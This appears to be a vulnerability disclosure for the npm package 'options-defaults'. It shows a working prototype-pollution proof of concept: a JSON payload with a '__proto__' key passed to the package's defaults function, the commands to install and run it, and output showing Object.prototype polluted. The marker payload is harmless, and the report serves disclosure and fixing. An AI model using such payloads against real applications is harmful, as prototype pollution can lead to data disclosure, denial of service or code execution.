 # Description

`options-defaults` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var optionsDefaults = require("options-defaults")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
optionsDefaults.defaults(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i options-defaults # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

